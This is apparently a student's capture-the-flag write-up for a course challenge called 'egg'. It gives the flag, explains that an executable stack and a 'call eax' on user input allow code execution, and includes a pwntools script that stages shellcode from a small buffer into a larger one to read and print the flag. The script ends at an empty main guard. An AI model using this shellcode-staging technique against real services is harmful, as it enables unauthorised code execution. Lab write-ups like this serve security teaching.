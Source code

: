 ============================================
============================================

misc-2 | egg
===========================

Flag: `6447{16baa76c-2d52-4972-be1b-d8b600e2c335}`

General overview of problems faced
-------------------------------------
Had forgotten that calling a function added a return address to the stack and therefore moved the buffers esp offsets

List of vulnerabilities
--------------------
1. The stack is executable
2. The program executes the code in a small buffer by loading the buffer into eax and executing `call eax` which allows the user to input malicious code. Even if the first buffer is too small to execute malicious commands, it is possible to jump to the bigger buffer in order to execute a large payload.

Steps to exploit
------------------
1. Write the small buffer's assembly code to call [esp + 60] which contains the large buffer
2. Write the large buffer's assembly code to read 42 bytes from filehandle 1000 into esp and write 42 bytes from esp to STDOUT
3. Convert the assembly code to hex and send the small buffer then the big buffer. The flag will then be printed out.


Script/Command used
------------------
```python
#!/usr/bin/env python
# -*- encoding: utf-8 -*-

# flag: 6447{16baa76c-2d52-4972-be1b-d8b600e2c335}

from pwn import *

def generate_small_payload():
    payload = "mov eax, [esp+60];"
    payload += "call eax;"

    asm_payload = asm(payload)

    return asm_payload

def generate_large_payload():
    big_payload = shellcraft.read(1000, 'esp', 42)
    big_payload += shellcraft.write(1, 'esp', 42)

    return asm(big_payload)

def main():
    context.arch = 'i386'
    context.terminal = '/bin/sh'

    r = remote("misc.6447.sec.edu.au", 8006)

    r.sendline(generate_small_payload())
    r.sendline(generate_large_payload())

    print "Flag:", r.recvrepeat(0.2).split()[-1]

if __name__ == '__main__':
```